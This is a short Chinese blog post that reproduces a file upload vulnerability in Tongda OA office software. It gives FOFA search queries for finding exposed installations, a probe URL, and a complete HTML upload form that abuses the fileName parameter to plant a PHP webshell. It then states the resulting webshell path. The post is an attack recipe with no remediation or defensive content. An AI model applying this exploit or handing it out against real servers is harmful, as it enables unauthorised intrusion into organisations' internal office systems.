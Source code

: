 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门

```html
<form enctype="multipart/form-data" action="ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

<input type="file" name="Filedata" size="50"><br>

<input type="submit" value="Upload">

</form>
```
- 以ma.jpg形式上传，上传后自动帮你重命名为test.php，真是神奇，大概率存在其他洞洞
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













